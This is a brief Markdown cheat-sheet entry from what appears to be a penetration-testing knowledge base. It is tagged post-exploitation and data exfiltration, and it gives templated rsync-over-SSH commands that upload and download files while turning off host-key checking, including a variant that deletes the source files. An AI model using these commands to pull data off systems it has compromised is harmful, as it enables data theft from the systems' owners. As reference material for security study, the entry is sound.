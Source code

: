 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - ssh
  - linux
---
```

# Rsync

> [!IMPORTANT] Conditions
> The SSH server must have [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/Rsync|`rsync`]] installed.

## 01 - Upload

```
$ rsync -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

> [!CAUTION]
> `--remove-source-files` flag will remove the files from the source directory. Think of it as moving all the data to the destination then cleans up the source.

```
$ rsync --remove-source-files -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

## 02 - Download

```
$ rsync -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <username>@<IP>:<file_source> <file_destination>
```

---
## References

### Source Repository

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)